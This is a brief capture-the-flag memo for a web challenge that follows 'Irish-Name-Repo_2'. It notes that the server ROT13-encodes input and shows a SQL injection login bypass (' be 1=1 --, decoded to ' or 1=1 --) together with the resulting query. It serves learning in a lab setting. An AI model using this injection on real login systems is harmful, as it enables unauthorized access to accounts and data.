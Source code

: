 # Memo
1. this ctf is the next to "Irish-Name-Repo_2"  
2. read web source and check cookie  
3. SQLi with `Burp`  
    Alphabet seems to be changed into different one.  
    checking a mapping.  
    ```
    abcdefghijklmnopqrstuvwxyz
    ->
    nopqrstuvwxyzabcdefghijklm
    ```
    Then I try this.
    ```
    password: ' be 1=1 --
    ```
    ```sql
    SQL query: SELECT * FROM admin where password = '' or 1=1 --'
    ```